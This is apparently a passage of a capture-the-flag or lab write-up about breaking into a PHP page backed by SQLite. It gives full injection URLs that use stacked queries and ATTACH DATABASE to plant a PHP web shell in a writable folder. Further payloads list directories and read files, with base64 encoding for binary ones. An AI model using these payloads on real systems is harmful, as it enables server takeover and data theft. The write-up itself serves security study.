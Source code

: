 ```html
```

Looking at the source code and experimenting with the requests reveals that several things can be exploited here:

* There is an SQL injection in the books query where we can simply append to the statement.
* The directory `d9e28afcf0b274a5e0542abb67db0784` is world-writable, which lets us write files to the server.
* We can set the `no_results` parameter which disables querying the results. Stacked queries are executed successfully if the result of the first query does not get processed. 
* The script is nice and outputs the query and also tells us about syntax errors in SQL statements

Therefore, I tried to simply drop a PHP file for executing system commands into that folder:

```default
http://127.0.0.1/dev/sqlite_test_page.php?bookid=1%3b+ATTACH+DATABASE+'d9e28afcf0b274a5e0542abb67db0784/pleazz.php'+AS+lol%3b+DROP+TABLE+IF+EXISTS+lol.pwn%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+('<%3fphp+system($_GET["cmd"])%3f>')&no_results=1
```

..and execute it with the following rquest:

```default
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/pleazz.php?cmd=[whatever we wish for]
```

But this box is of course not that easy to take over - unfortunately the PHP functions `system`, `passthru`, `exec` and `shell_exec` do not work.

However, we can execute the php function `file_get_contents`, `scandir` and `base64_encode` and therefore extract (binary) files and list directories as follows:

```default
# List directory contents
http://127.0.0.1/dev/sqlite_test_page.php?bookid=1%3b+ATTACH+DATABASE+'d9e28afcf0b274a5e0542abb67db0784/pleazz.php'+AS+lol%3b+DROP+TABLE+IF+EXISTS+lol.pwn%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+('<%3fphp+print_r(scandir("/some/directory"))%3f>')&no_results=1

# Read file
http://127.0.0.1/dev/sqlite_test_page.php?bookid=1%3b+ATTACH+DATABASE+'d9e28afcf0b274a5e0542abb67db0784/pleazz.php'+AS+lol%3b+DROP+TABLE+IF+EXISTS+lol.pwn%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+('<%3fphp+echo+file_get_contents("/some/file")%3f>')&no_results=1")

# Read file and output it in an array (better to read because our PHP file is an SQLITE database at the same time and therefore, some other stuff is mixed into the output
execute("http://127.0.0.1/dev/sqlite_test_page.php?bookid=1%3b+ATTACH+DATABASE+'d9e28afcf0b274a5e0542abb67db0784/pleazz.php'+AS+lol%3b+DROP+TABLE+IF+EXISTS+lol.pwn%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+('<%3fphp+$arr%3darray(file_get_contents("/some/file"))%3bprint_r($arr)%3b+%3f>')&no_results=1")

# Read file and output it in an array, encoded as base64 (for binary files)
http://127.0.0.1/dev/sqlite_test_page.php?bookid=1%3b+ATTACH+DATABASE+'d9e28afcf0b274a5e0542abb67db0784/pleazz.php'+AS+lol%3b+DROP+TABLE+IF+EXISTS+lol.pwn%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+('<%3fphp+$arr%3darray(base64_encode(file_get_contents("/some/file")))%3bprint_r($arr)%3b+%3f>')&no_results=1")
```
